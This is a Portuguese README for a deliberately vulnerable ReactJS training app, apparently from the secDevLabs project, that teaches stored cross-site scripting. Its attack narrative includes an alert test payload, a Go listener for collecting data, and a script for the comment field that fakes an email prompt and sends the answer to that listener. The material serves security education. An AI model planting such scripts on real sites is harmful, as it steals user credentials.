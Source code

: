 # Comment-killer

[Access content in English](README.md)

<p align="center">
    <img src="images/img1.png"/>
</p>

O Comment-killer é um aplicativo ReactJS simples, que possui uma vulnerabilidade de injeção (XSS) e seu principal objetivo é descrever como um usuário mal-intencionado poderia explorá-lo.

## Index

- [Definição](#O-que-é-Cross-Site-Scripting?)
- [Como inicializar o aplicativo?](#como-inicializar-o-aplicativo)
- [Narrativa de ataque](#narrativa-de-ataque)
- [Objetivos](#proteger-este-aplicativo)
- [Soluções](#pr-soluções)
- [Contribuição](#contribuição)


## O que é Cross Site Scripting??

As falhas de XSS ocorrem sempre que um aplicativo inclui dados não confiáveis em uma nova página da Web sem validação, escape adequados, ou atualiza uma página da Web existente com dados fornecidos pelo usuário usando uma API do navegador que pode criar HTML ou JavaScript. 

O XSS permite que os invasores executem scripts no navegador da vítima que podem sequestrar sessões do usuário, desfigurar sites ou redirecionar o usuário para sites maliciosos.

O objetivo principal deste aplicativo é discutir como as vulnerabilidades de **Cross-Site Scripting** podem ser exploradas e incentivar os desenvolvedores a enviar solicitações de pull do **secDevLabs** sobre como mitigar essas falhas. Saiba mais <a href="https://owasp.org/www-community/attacks/xss/">aqui</a>.

## Como inicializar o aplicativo?

Para iniciar este **aplicativo inseguro** intencionalmente, você precisará do [Docker][Docker Install] e do [Docker Compose][Docker Compose Install]. Depois de clonar o repositório [secDevLabs](https://github.com/globocom/secDevLabs), no seu computador, você deve digitar os seguintes comandos para iniciar o aplicativo:

```bash
cd secDevLabs/owasp-top10-2021-apps/a3/comment-killer
```

```bash
make install
```

Depois é só visitar [http://localhost:10007][app] ! 😆

## Conheça o app 💵

Para entender corretamente como esse aplicativo funciona, você pode seguir esse passo a passo:

- Leia a história legal por trás dos Memes.
- Adicione um novo comentário.

## Narrativa de ataque

Agora que você conhece o propósito deste aplicativo, o que pode dar errado? A seção a seguir descreve como um invasor pode identificar e, eventualmente, encontrar informações confidenciais sobre o aplicativo ou seus usuários. Recomendamos que você siga estas etapas e tente reproduzi-las por conta própria para entender melhor o ataque! 😜

### Nota: Esta narrativa de ataque funciona melhor no Mozilla Firefox.

### 👀

### Uma página ou aplicativo da Web é vulnerável ao XSS  se a entrada do usuário permitir scripts.

Após inspecionar a aplicação, é possível identificar que a entrada de comentário está permitindo scripts e pode ser executada em um navegador web. As imagens a seguir mostram esse comportamento quando o texto a seguir é usado como entrada nesses campos: 

```
<script>alert(1)</script>
```

Adicionando um novo comentário a uma postagem:

<p align="center">
    <img src="images/img2.png"/>
</p>

A validação de entrada ausente permite que um usuário mal-intencionado insira alguns scripts que persistirão no servidor e serão executados no navegador das vítimas toda vez que acessarem as rotas que contêm esses scripts. 

#### 🔥

Um invasor pode abusar dessa falha gerando um código JS malicioso e enviando-o para outros usuários. Para demonstrar isso, o exemplo a seguir criará um formulário de email para tentar roubar as credenciais do usuário.

Inicialmente, uma API é necessária para registrar todas as solicitações recebidas e pode ser construída em Golang da seguinte forma:

```go
package main

import (
   "fmt"
   "github.com/labstack/echo"
)

func main() {
   e := echo.New()
   e.GET("/:email", handler)
   e.Logger.Fatal(e.Start(":9051"))
}

func handler(c echo.Context) error {
   fmt.Println(c.Request().RemoteAddr, c.Param("email"))
   return nil
}
```

Para iniciar a API, o seguinte comando pode ser usado (você deve verificar este [guia](https://golang.org/doc/install) se precisar de ajuda com o Golang):

```sh
go run main.go
```

Com a API em funcionamento, basta o seguinte código para mostrar uma mensagem pop-up solicitando o e-mail do usuário para continuar lendo o blog:

```js
<script>
    var email = prompt("Please input your email again to continue:", "email@example.com");

    if (email == null || email == "") {
        alert("Ooops, please refresh the page!");
    } else {
        fetch('http://localhost:9051/'+email);
    }
</script>
```

O código JavaScript acima é responsável por enviar uma solicitação `GET` para a API do invasor para que ela possa ser registrada. Neste cenário, enviaremos solicitações para `localhost`.

Tudo o que precisamos agora é colar o código JavaScript no campo de comentários, conforme mostra a imagem a seguir:

<p align="center">
    <img src="images/img3.png"/>
</p>

Quando outro usuário acessar o aplicativo, o seguinte pop-up será mostrado, como podemos ver na imagem abaixo:

<p align="center">
    <img src="images/img4.png"/>
</p>

Enquanto isso, com a API em funcionamento, podemos receber o e-mail do usuário, conforme mostra a imagem a seguir:

<p align="center">
    <img src="images/img5.png"/>
</p>

## Proteger este aplicativo

Como você arrumaria essa vulnerabilidade? Após suas alterações, um invasor não poderá:

- Executar scripts por meio de campos de entrada

<a name="Sol"></a>

## PR Soluções

[Alerta de spoiler 🚨 ] Para entender como essa vulnerabilidade pode ser resolvida, confira [these pull requests](https://github.com/globocom/secDevLabs/pulls?q=is%3Apr+label%3A%22mitigation+solution+%F0%9F%94%92%22+label%3AComment-Killer)!

<a name="Cont"></a>

## Contribuição

Nós encorajamos você a contribuir com o SecDevLabs! Por favor, confira a seção [Contribuição no SecDevLabs](../../../docs/CONTRIBUTING.md) para orientações sobre como proceder !🎉 🎉

[docker install]: https://docs.docker.com/install/
[docker compose install]: https://docs.docker.com/compose/install/
[app]: http://localhost:10007
[secdevlabs]: https://github.com/globocom/secDevLabs

